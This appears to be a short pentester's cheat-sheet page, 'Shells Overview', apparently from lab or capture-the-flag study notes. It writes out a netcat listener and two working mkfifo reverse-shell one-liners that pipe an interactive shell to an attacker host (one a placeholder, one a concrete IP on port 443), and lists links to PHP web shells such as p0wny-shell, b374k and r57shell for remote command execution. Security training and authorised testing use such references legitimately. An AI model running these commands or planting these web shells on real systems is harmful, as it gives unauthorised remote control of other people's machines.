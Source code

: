 # Shells Overview

## Reverse shells

{% code overflow="wrap" %}
```bash
nc -lvnp 443     # Set up a netcat listener on port 443 on the attack machine

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.10.220.202 443>/tmp/f
```
{% endcode %}

web shells:&#x20;

{% code overflow="wrap" %}
```bash
https://www.r57shell.net/index.php

https://github.com/flozz/p0wny-shell #A minimalistic single-file PHP web shell that allows remote command execution

https://github.com/b374k/b374k # A more feature-rich PHP web shell with file management and command execution, among other functionalities.

https://www.r57shell.net/single.php?id=13 # A well-known and robust PHP web shell with extensive functionality.

```
{% endcode %}

[https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
